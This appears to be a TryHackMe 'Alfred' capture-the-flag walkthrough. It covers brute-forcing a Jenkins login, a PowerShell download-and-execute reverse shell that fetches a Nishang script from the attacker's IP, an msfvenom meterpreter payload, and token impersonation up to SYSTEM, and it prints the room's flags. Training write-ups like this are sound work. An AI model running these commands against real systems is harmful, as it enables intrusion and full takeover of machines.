







# TryHackMe's Alfred Room

## Introduction

In this writeup, we will walk through the **Alfred** room on TryHackMe, which presents a series of challenges involving enumeration, exploitation, and privilege escalation in a Windows environment. We'll begin with reconnaissance using **Nmap** to identify potential entry points, follow up with service exploitation, and employ tools like **PowerShell**, **Metasploit**, and **Nishang** to gain initial access and escalate privileges. Finally, we'll retrieve key flags along the way, demonstrating the entire attack process step-by-step. This guide is designed for both learning and skill enhancement in penetration testing.

## Initial Access

Start with a scan of the target machine.

```bash
root@ip-10-10-13-148:~# nmap -sV -sC -sS -T4 -Pn 10.10.34.64

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-20 14:10 BST
Nmap scan report for ip-10-10-34-64.eu-west-1.compute.internal (10.10.34.64)
Host is up (0.00067s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 02:D9:09:3A:32:39 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.92 seconds
```

The scan reveal useful information.  
Navigate to <TARGET_IP>:8080 and you will find a Jenkins application running.  
Jenkins is a famous tool used for CI/CD workflows.  
We will attempt to crack the login page with a dictionary attack, using **Burp Intruder**.

Try to login with any username/password combination, capture the request with Burp and send it to the Intruder module.



Choose a **Sniper attack** and configure the payload as shown in the picture.  
We will try to crack the default 'admin' user.



Load the wordlist in the payload settings.  
For this task use the **fasttrack.txt** wordlist, you can find it at _/usr/share/wordlists/fasttrack.txt_ on the attack box.



Once everything is set click on the start attack button.  
If you are using the community edition of Burp it will take a few minutes.  
The Intruder will attempt to login using every password contained in the wordlist.  
Burp, alas, does not check for us the responses to see if the attempt was successful.  
One way of quickly checking the results is to look at the 'Length' tab: if a password was found one value will be visibly different from the others.  
So, based on the image below, the password for the 'admin' user is **admin**.  
Looks like someone forgot to change the default credentials!



Use the credentials to login into Jenkins.  
Access the job named **project**.



Click on "Configure"



Go to the "Execute windows batch command" box.



When the job is run the commands contained in this box are executed on the target system.  
Write the following command in the box

```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.13.148:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.13.148 -Port 443
```

This powershell command downloads and executes a powershell script from the Nishang project and it will get you a reverse shell on the system.  
But before that you need prepare a few things for this to work.  
First you need to replace all the occurrences of the 10.10.13.148 ip from the previous command with the ip of your attack box.  
Next, download the script on your local machine.

```bash
root@ip-10-10-13-148:~# wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
--2024-09-20 16:09:21--  https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: \u2018Invoke-PowerShellTcp.ps1\u2019

Invoke-PowerShellTcp.ps1                   100%[=====================================================================================>]   4.24K  --.-KB/s    in 0s

2024-09-20 16:09:21 (33.1 MB/s) - \u2018Invoke-PowerShellTcp.ps1\u2019 saved [4339/4339]
```

You need to serve the script to the target machine so that it can download it from you (using the powershell command we just saw).  
In order to do so start a http server on your machine, **in the same directory where you downloaded the powershell script**.

```bash
root@ip-10-10-13-148:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We are using a reverse shell so the target machine will attempt to connect back at you, start a listener to catch that connection.

```bash
root@ip-10-10-13-148:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
```

Click on "Build now" to run the job.


This should run our malicious powershell command and you should get a shell.

```bash
root@ip-10-10-13-148:~# nc -lvnp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from 10.10.34.64 49349 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Find the user flag:

```bash
PS C:\Users> Get-ChildItem -Recurse -Filter 'user.txt'


    Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---        10/25/2019  11:22 PM         32 user.txt
```

```bash
PS C:\Users> type C:\Users\bruce\Desktop\user.txt
79007a09481963edf2e1321abd9ae2a0
```

## Switching Shells

Now you will perform a shell upgrade in order to simplify the privilege escalation phase.  
From your current powershell shell you will switch to a meterpreter shell.  
Meterpreter is more feature-rich compared to standard shells and is provided by the Metasploit framework.

First, craft a payload to start a reverse meterpreter shell using **msfvenom** which is basically a tool to create payloads.  
As always with these commands make sure to replace the 'LHOST=10.10.13.148' part with the ip of your attack box.

```bash
root@ip-10-10-13-148:~# msfvenom -p windows/meterpreter/reverse_tcp --encoder x86/shikata_ga_nai LHOST=10.10.13.148 LPORT=4444 -f exe -o shell-name.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell-name.exe
```

Now run `msfconsole` to run metasploit.  
Set up a handler to receive the meterpreter shell.  
Once again, replace the 10.10.13.148 ip with your attack box ip.

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.13.148
lhost => 10.10.13.148
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.13.148:4444
```

From the powershell shell you obtained earlier launch the following command:

```bash
PS C:\Users> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.13.148:8000/shell-name.exe','shell-name.exe')"
PS C:\Users> Start-Process "shell-name.exe"
```

This downloads the malicious payload on the target system and executes it.  
Remember, your machine is serving the payload to the target machine so make sure your http server is still running and the payload is in the same folder where the http server is running.  
If everything was setup properly you should get a meterpreter shell.

```bash
[*] Sending stage (175686 bytes) to 10.10.34.64
[*] Meterpreter session 4 opened (10.10.13.148:4444 -> 10.10.34.64:49411) at 2024-09-20 17:04:07 +0100

meterpreter >
```

## Privilege Escalation

Now you are ready to escalate your privileges.  
You will do so using a tecnique called **token impersonation**.  
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated.  
The point is to impersonate a user with higher privileges.

```bash
PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
...
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

You can see that the SeDebugPrivilege and SeImpersonatePrivilege are enabled for your current user.  
You will exploit this configuration using **incognito**, one of metasploit's extension modules.

```bash
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
...
```

The BUILTIN\Administrators token is available! Let's use that.

```bash
meterpreter > getuid
Server username: alfred\bruce
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

You have successfully impersonated the NT AUTHORITY\SYSTEM user, but beware!  
Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).  
You can migrate to another process to solve this issue and the token impersonation should allow you to migrate to a process with higher permissions.  
Check the running processes.

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
...
```

Migrate to the _services.exe_ process using its PID.

```bash
meterpreter > migrate 668
[*] Migrating from 736 to 668...
[*] Migration completed successfully.
```

Congratulation, now you have full SYSTEM access.  
Prove that by reading the root flag.

```bash
meterpreter > shell
Process 516 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>type C:\Windows\System32\config\root.txt
type C:\Windows\System32\config\root.txt
dff0f748678f280250f25a45b8046b4a
```

## Conclusion

That's all for this room! I hope you had fun or at least learned something new.  
Until next time, happy hacking!
